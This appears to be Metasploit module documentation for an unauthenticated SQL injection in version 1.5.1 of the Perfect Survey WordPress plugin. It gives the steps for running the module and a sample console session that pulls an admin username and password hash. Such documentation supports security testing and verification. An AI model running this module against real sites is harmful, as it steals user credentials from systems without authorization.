 ## Vulnerable Application

Perfect Survey, a WordPress plugin, version 1.5.1 is affected by an unauthenticated SQL injection vulnerability
via the `question_id` parameter.

An unauthenticated attacker can exploit this SQL injection vulnerability to retrieve sensitive information,
such as usernames and password hashes, from the `wp_users` table.

The vulnerable plugin can be downloaded from the [WordPress plugin repository](https://wordpress.org/plugins/).
The specific vulnerable version can be found here: https://www.exploit-db.com/apps/51c80e6262c3a39fa852ebf96ff86b78-perfect-survey.1.5.1.zip

## Verification Steps

1. Install the WordPress application and the vulnerable version of the Perfect Survey plugin.
2. Start `msfconsole`.
3. Run: `use auxiliary/scanner/http/wp_perfect_survey_sqli`.
4. Set the target host: `set RHOSTS [ip]`.
5. Adjust other options as necessary, such as `TARGETURI` (default is `/`).
6. Execute the module: `run`.
7. The module should retrieve usernames and password hashes from the WordPress installation.

## Options

### SHOW_FULL_RESPONSE
If set to `true`, the module will print the entire JSON response received from the server when username and password hash extraction fails.
Default is `false`.

## Scenarios

### WordPress with Perfect Survey Plugin 1.5.1 on Ubuntu 20.04

#### Example

```plaintext
msf6 > use auxiliary/scanner/http/wp_perfect_survey_sqli
[*] Using auxiliary/scanner/http/wp_perfect_survey_sqli
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > check

[*] Sending HTTP GET request to check the plugin version...
[*] The target appears to be running Perfect Survey plugin version 1.5.1.
[+] The target appears to be vulnerable.
msf6 auxiliary(scanner/http/wp_perfect_survey_sqli) > run

[*] Exploiting SQLi in Perfect Survey plugin...
[+] Received a response from the server!
[+] Extracted Username: admin
[+] Extracted Password Hash: $P$BPUcVygZO/z1DqvPoEYQILBgsyi7tf0
[*] Auxiliary module execution completed.
```

